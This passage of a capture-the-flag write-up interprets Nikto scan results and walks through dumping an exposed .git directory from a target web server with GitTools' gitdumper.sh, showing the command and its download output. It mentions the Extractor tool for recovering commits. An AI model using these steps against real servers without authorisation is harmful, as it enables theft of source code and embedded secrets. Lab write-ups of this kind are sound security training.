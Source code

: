 Looking at the Nikto result, a LOT of information we can get. First, it's definitely a php written server, is the version subject to any public exploit?; Second the version of apache, which by obligation we checked to the version and see if it is a vulnerable version; third, internal IP was discovered. 

Finally, a git repository folder .git is discovered, which has led to further compromise of the internal git commit source codes to the attacker. 
While the /.git/ directory itself remains hidden on the view of web browser, we are aware of the exposed git repository by the tool. 
The next step would be **HOW** could we exploit such vulnerability - At the time of the writing, the writer is aware of the two open-sources tools in relation of .git repository exploitation - [trufflehog](https://github.com/trufflesecurity/truffleHog) and [GitTools](https://github.com/internetwache/GitTools)
If you look at the hint of this CTF, the "dump" hint is very obvious. 

Leveraging the “Dumper” tool within GitTools, we are able to download as much as possible from the found .git repository of the targeted webserver. 
```
/gitdumper.sh http://<target>/.git/ dest-dir 
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/YY/XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
[..snip..]
```

Accordingly, leveraging the “Extractor” tool within the GitTools, we are able to extract commits and the corresponding content from the .git repository where we can pull all the objects we want.
